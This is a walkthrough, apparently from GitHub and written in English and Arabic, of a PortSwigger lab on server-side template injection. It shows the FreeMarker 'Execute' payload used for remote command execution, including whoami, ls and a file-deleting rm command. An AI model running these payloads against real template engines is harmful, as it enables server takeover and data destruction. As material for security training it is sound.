 ## Welcome, my friend. Today we will start the [3. SSTI lab](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation) in ```portswigger```
### Let's play this lab:

#### First, we navigate inside the browser
![image](https://github.com/user-attachments/assets/7abc2bf3-e237-4914-b5fe-73b37593b198)

### اول خطوة هي اننا نتصفح الموقع ونرى ما هو مريب علشان نستغلها في اختراق ذلك التحدي. ,ومعانا حساب لنسجل عليه ```content-manager:C0nt3ntM4n4g3r```:
![image](https://github.com/user-attachments/assets/e72d86f0-db48-4cd8-8d4d-d44d1acbf3c4)


### نلاحظ وجود بلوجات لو دخلنا على بلوج منهم هنلاحظ اننا نقدر نغير التمبلت وهنا يأتي دورنا:

![image](https://github.com/user-attachments/assets/e483a796-dfee-4d6a-8c3e-7ddc1cd1df30)
![image](https://github.com/user-attachments/assets/9bbfda09-8332-4ec2-8202-2d54a60f8e69)


### هنلاحظ في الكود قيمة ```${product.stock}``` هنغير تغيير بسيط بحيث يصبح كالاتي ```${product.haha}``` ونضغط preview:
![image](https://github.com/user-attachments/assets/ce3143d2-1b7d-406f-a0b7-7c250e573918)





### وبعدها هنكتشف نوع التامبلت من خلال رسالة الخطأ وهي ```FreeMarker``` وندخل على hacktricks ونبحث على اكواد خاصة بتلك المكتبة :
![image](https://github.com/user-attachments/assets/866a22d4-8f42-46fe-85bb-a425f3198d65)




## نستخدم تلك الكود:

```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("whoami")}
```

![image](https://github.com/user-attachments/assets/5e5cbe1a-a823-471f-8b33-23932fd0b919)

### بعد كده نستخدم تلك الكود:
```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("ls")}
```
![image](https://github.com/user-attachments/assets/29488959-d5bc-416a-a859-9da685d51321)

### بعد كده نحذف تلك الملف.
```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("rm  morale.txt")}
```
![image](https://github.com/user-attachments/assets/9524b1a0-5e72-475d-ae71-0ccd97c0cdd0)


## وهنا تم حل اللاب يا صديقي ;)


-----------------

Well, We Congratulations, the lab has been solved successfully.




<p align="center">
<img src="https://github.com/user-attachments/assets/853f5e50-d1fd-4465-9c5a-a3f27700e936" >
</p>
